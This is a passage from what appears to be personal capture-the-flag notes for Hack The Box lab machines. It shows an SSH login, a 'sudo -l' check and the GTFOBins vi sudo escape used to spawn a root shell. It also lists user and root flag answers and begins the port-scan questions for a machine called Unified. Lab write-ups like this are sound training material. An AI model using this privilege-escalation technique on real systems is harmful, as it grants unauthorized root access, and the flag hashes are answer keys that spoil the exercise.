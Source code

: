 - We can try to connect as with ssh with this user and password

![[Pasted image 20230623141119.png]]

- Now we are inside the server and we can try privileage escalation:

```
sudo -l
```

![[Pasted image 20230623141306.png]]

- We are gooing to GTFOBins (https://gtfobins.github.io/gtfobins/vi/#sudo) to abuse the privilage

```
sudo /bin/vi /etc/postgresql/11/main/pg-hba.conf

:set shell=/bin/sh
:shell
```

![[Pasted image 20230623141844.png]]

8. Submit user flag 

```
ec9b13ca4d6229cd5cc1e09980965bf7
```

![[Pasted image 20230623140510.png]]

9. Submit root flag 

```
dd6e058e814260bc70e9bbdef2715849
```

## 16. Unified (Very Easy)

IP: 10.129.134.34

1. Which are the first four open ports? 

```
22, 6789, 8080, 8443
```

![[Pasted image 20230718114252.png]]

![[Pasted image 20230718114332.png]]

2. What is the title of the software that is running running on port 8443? 

```
UniFi Network
```

3. What is the version of the software that is running? 
